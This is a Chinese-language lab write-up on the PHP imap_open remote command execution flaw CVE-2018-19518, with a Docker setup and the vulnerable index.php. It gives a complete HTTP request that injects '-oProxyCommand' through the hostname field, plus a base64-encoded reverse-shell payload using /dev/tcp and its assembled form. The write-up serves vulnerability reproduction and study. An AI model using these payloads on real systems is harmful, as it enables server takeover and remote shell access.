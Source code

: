# PHP imap 远程命令执行漏洞 CVE-2018-19518

## 漏洞描述

php imap 扩展用于在 PHP 中执行邮件收发操作。其 `imap_open` 函数会调用 rsh 来连接远程 shell，而 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能（也就是说，在 debian 系列系统中，执行 rsh 命令实际执行的是 ssh 命令）。

因为 ssh 命令中可以通过设置 `-oProxyCommand=` 来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

参考链接：

- https://bugs.php.net/bug.php?id=77153
- https://github.com/Bo0oM/PHP_imap_open_exploit
- https://antichat.com/threads/463395/#post-4254681
- https://nvd.nist.gov/vuln/detail/CVE-2018-19518

## 环境搭建

Vulhub 执行如下命令启动一个包含漏洞的 PHP 环境：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看 web 页面。Web 功能是测试一个邮件服务器是否能够成功连接，需要填写服务器地址、用户名和密码。

目标源码为 index.php

## 漏洞复现

发送如下数据包即可成功执行命令 `echo '1234567890'>/tmp/test0001`：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529090507711.png)

执行 `docker compose exec web bash` 进入容器，可见 `/tmp/test0001` 已成功创建：

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529090441656.png)

写入反弹 shell：

```bash
# Payload
echo "/bin/bash -i >& /dev/tcp/127.0.0.1/8888 0>&1" > /tmp/a

# Base64 Encode
ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjEiID4gL3RtcC9h
# URL Encode
ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA%2bJjEiID4gL3RtcC9h
# 组装Payload
# hostname=x+-oProxyCommand%3decho%09[PAYLOAD]|base64%09-d|sh}&username=111&password=222
hostname=x+-oProxyCommand%3decho%09ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA%2bJjEiID4gL3RtcC9h|base64%09-d|sh}&username=111&password=222
```

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529093314892.png)

触发反弹 shell：

```shell
# Payload
/bin/bash /tmp/a

# Base64 Encode
L2Jpbi9iYXNoIC90bXAvYQ==
# URL Encode
L2Jpbi9iYXNoIC90bXAvYQ%3d%3d
# 组装Payload
# hostname=x+-oProxyCommand%3decho%09[PAYLOAD]|base64%09-d|sh}&username=111&password=222
hostname=x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvYQ%3d%3d|base64%09-d|sh}&username=111&password=222
```

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529093903859.png)

### index.php

```php
<?php
if(!empty($_POST)) {
    $imap = @imap_open('{'.$_POST['hostname'].':993/imap/ssl}INBOX', $_POST['username'], $_POST['password']);
}
?>
<!doctype html>
<html lang="en">
<head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css" integrity="sha256-eSi1q2PG6J7g7ib17yAaWMcrr5GrtohYChqibrV7PBE=" crossorigin="anonymous">

    <title>Input your email server</title>
</head>
<body>

<div class="container">
        <h2>Test your email server</h2>
        <?php if(!empty($_POST)): ?>
        <?php if($imap): ?>
            <div class="alert alert-success" role="alert">
                Connect successful!
            </div>
        <?php else: ?>
            <div class="alert alert-danger" role="alert">
                Connect failed!
            </div>
        <?php endif; ?>
        <?php endif; ?>
        <form method="post">
            <div class="form-group">
                <label>Server address</label>
                <input type="text" name="hostname" class="form-control" >
            </div>
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control" >
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" class="form-control" name="password">
            </div>
            <button type="submit" class="btn btn-primary">Submit</button>
        </form>
</div>


<!-- Optional JavaScript -->
<!-- jQuery first, then Popper.js, then Bootstrap JS -->
<script src="https://cdn.jsdelivr.net/npm/jquery@3.3.1/dist/jquery.min.js" integrity="sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8=" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.14.4/dist/umd/popper.min.js" integrity="sha256-EGs9T1xMHdvM1geM8jPpoo8EZ1V1VRsmcJz8OByENLA=" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/js/bootstrap.min.js" integrity="sha256-VsEqElsCHSGmnmHXGQzvoWjWwoznFSZc6hs7ARLRacQ=" crossorigin="anonymous"></script>
</body>
</html>
```
